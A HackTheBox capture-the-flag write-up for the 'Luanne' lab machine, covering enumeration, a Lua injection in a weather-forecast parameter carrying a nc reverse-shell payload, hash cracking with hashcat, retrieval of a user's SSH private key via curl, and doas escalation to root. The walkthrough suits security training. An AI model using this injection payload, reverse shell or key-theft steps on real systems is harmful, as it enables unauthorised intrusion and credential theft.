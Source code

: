 ```yaml
---
title: Luanne Hackthebox Writeup
date: 2020-12-01 09:00:00 +0800
categories: [Hackthebox, Active]
tags: [bsd,doas,hashcat,cracking,hashes,ssh,reverse shell,lua,gobuster,directory enumeration,netbsd,luanne,hackthebox,easy]     # TAG names should always be lowercase
image: /assets/img/luanne-hackthebox/luanne-pic.png
subtitle: JHBDOcubeoveiubo
---
```


# Introduction@Luanne:~$


Column | Details
------------ | -------------
Name | Luanne
IP | 10.10.10.218
Points | 20
Os | BSD
Difficult | Easy
Creator | [polarbearer](https://www.hackthebox.eu/home/users/profile/159204)
Out on | 28th November 2020

# Summary:~$

* Discovering the new host and scanning for open ports.
* Checking **robots.txt** and enumerating the `directories`.
* Generating a reverse shell in `Lua`.
* Getting a low priviveleged shell, and traversing in every directory.
* **Cracking** hash using `hashcat`.
* Accessing an unexplored port i.e. `3001`.
* Extracting `id_rsa` of one of the users : `r.michaels` using a crafted **curl** command.
* Loging into `r.michaels` using **ssh** with **id_rsa**.
* Manually `enumerating` and looking for interesting files.
* Decrypting a file using `netpgp` : A tool for decrypting files in BSD.
* **Cracking** another hash using `hashcat`.
* **Escalating** privileges as **root** using `doas` command in BSD.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/luanne-hackthebox/xx-alternate-nmapautomator.png)


Basically 3 ports are open : `22:ssh` `80:http` `9001:http-Medusa`.

I looked at **port 80** which showed `/weather` as one of the directories.

Accessing `http://10.10.10.218`.

___
![](/assets/img/luanne-hackthebox/latestt-01.png)


Accessing `http://10.10.10.218/robots.txt`.

___
![](/assets/img/luanne-hackthebox/latest-02.png)


Accessing `http://10.10.10.218/weather`.

___
![](/assets/img/luanne-hackthebox/latest-03.png)


It shows a `404 error` , enumerating directory with `gobuster`.

**Command used:** `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.218/weather/ -t 100`

___
![](/assets/img/luanne-hackthebox/gobuster.png)


I got another directory as `/forecast`. Further accessing and providing the parameter as `city`.

___
![](/assets/img/luanne-hackthebox/latest-04.png)


___
![](/assets/img/luanne-hackthebox/latest-05.png)


Trying to create an `error` with which is `%27` in URL encode.

___
![](/assets/img/luanne-hackthebox/creating-error.png)


From the error I got to know that a language called `Lua` is being used.

After some research I created a `reverse shell`.

**Shell Command :** *http://10.10.10.218/weather/forecast?city=London'+os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR-IP 4444 >/tmp/f ")+'*

URL encoding the reverse shell payload, sending it and listening on `nc`.

___
![](/assets/img/luanne-hackthebox/initial-foothold-shell-10.png)


I got a shell as `_httpd`.

After that, I manually enumerated the files and while accessing `/var/www/`, I got a `.htpasswd` file.

___
![](/assets/img/luanne-hackthebox/webapi-user-12.png)


I used `Hashcat` to crack the hash.

**Hashcat Command:** *hashcat -m 500 -a 0 /home/pulkittalwar2611/Desktop/hashes rockyou.txt --force*. Where the hash is stored in the file called `hashes`.

___
![](/assets/img/luanne-hackthebox/hashcat-commad-cracking-14.png) ___

Got the password as `iamthebest`. I logged in port 80 but couldn't find anything there.

Accessing `port 9001`, and entering **user:123** as random username:password.

___
![](/assets/img/luanne-hackthebox/port-9001-login-access-17.png)


Further I checked `http://10.10.10.218:9001/logtail/processes`. I found the following:

___
![](/assets/img/luanne-hackthebox/logical-process-3001-port.png)


To understand in detail, read this : [Userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) and [Userdir-feature](https://websiteforstudents.com/configure-nginx-userdir-feature-on-ubuntu-16-04-lts-servers/).

Getting `id_rsa` of the user: `r.michaels`.

**Command Used:** *curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa*

___
![](/assets/img/luanne-hackthebox/id-rsa-r.michaels-19.png)


Proving permissions to `id_rsa` as `600`. Loging in as `r.michaels` using ssh and id_rsa.

**Command Used:** *chmod 600 id_rsa* 

*ssh -i id_rsa r.michaels@10.10.10.218*

___
![](/assets/img/luanne-hackthebox/ssh-loggedin-21.png)


Got `User Flag`.

___
![](/assets/img/luanne-hackthebox/user-flag-22.png)


Further enumerating manually, I got a `backup file` in `/home/r.michaels/backups/`. As it was encrypted so I used `netpgp` command to decrypt it.

___
![](/assets/img/luanne-hackthebox/backups-r.michales-encrypt-23.png)


**Command Used:** *netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/output.tar.gz*

___
![](/assets/img/luanne-hackthebox/netpgp-decrypt-output-25.png)


___
![](/assets/img/luanne-hackthebox/unzip-gunzip-28.png)


After accessing `devel-2020-09-16/www/.htpasswd`, I got another hash: *webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.*

Again used `Hashcat` to crack the hash.

**Hashcat Command:** *hashcat -m 500 -a 0 /home/pulkittalwar2611/Desktop/hashes rockyou.txt --force*. Where the hash is stored in the file called `hashes`.

___
![](/assets/img/luanne-hackthebox/hash-crack-root-30.png)


Got the password as `littlebear`.

To upgrage `privileges` in BSD, following command is used : *doas -u root /bin/sh* and then enter the password you got.

___
![](/assets/img/luanne-hackthebox/root-31.png)


Got `Root Flag`.

